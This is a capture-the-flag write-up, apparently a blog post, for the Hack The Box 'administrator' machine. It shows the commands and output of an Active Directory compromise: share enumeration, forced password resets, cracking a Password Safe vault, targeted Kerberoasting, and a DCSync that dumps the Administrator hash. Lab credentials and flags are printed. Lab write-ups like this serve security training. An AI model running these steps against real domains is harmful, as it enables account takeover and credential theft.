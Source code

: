 ```yaml
---
layout: post
title: HTB - administrator
date: 2025-04-23 17:53 -0400
---
```


{{ 'administrator' | get_machine_avatar | raw }}

# nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-23 09:13 -04
Nmap scan report for 10.10.11.42
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 20:13:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
60896/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60907/tcp open  msrpc         Microsoft Windows RPC
60912/tcp open  msrpc         Microsoft Windows RPC
60915/tcp open  msrpc         Microsoft Windows RPC
60934/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-04-23T20:14:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.76 seconds
```

# user
We start with some creds:
- Username: Olivia
- Password: ichliebedich

Ftp open is interesting.

There is a ADMIN$ share that looks interesting but we can't read that.
```bash
» netexec smb $(cat ip.txt) -u Olivia -p 'ichliebedich' --shares
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```

Let's look at writable ldap attrs for Olivia
```bash
» bloodyAD -u Olivia -p ichliebedich --host administrator.htb get writable --detail
```

Looks like it has a lot of writes on `Michael Williams`. Let's take a better look with bloodhound.

We can use `olivia` to get to `michael` and `michael` to get to `benjamin`.
![esc chain](/assets/img/administrator1.png)

```bash
» bloodyAD -k --host dc.administrator.htb -d administrator.htb set password Michael 'asdf1234$Ba'
» bloodyAD -u Michael -p 'asdf1234$Ba' --host administrator.htb set password Benjamin 'asdf1234$Ba
```

Michael has winrm but there isn't much in there.

Ftp accepts benjamin creds and there is a Backup.safe3 in there.

We can crack it with `hashcat ./Backup.psafe3 ~/wordlists/rockyou.txt -m 5200 -a 0`
- ./Backup.psafe3:tekieromucho

Then we use pwsafe to access it.
![vault1](/assets/img/administrator7.png)
![vault2](/assets/img/administrator6.png)

- emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
- emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
- alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily is the only of the three with winrm access so lets focus on that.
```bash
*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
cd368971f88837d54608046d3a0eddee
```

# root
From here emily can change ethan password and ethan can use DCSync to get domain controller.
![emily to ethan](/assets/img/administrator3.png)

Could not change ethan password and could not figure out why so we going with targetedKerberoast:

```bash
targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
# $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*...
```

- ethan:limpbizkit

Now just DCSync.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@dc.administrator.htb -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
ccf442a948304068163d5f8b2f8898aa
```
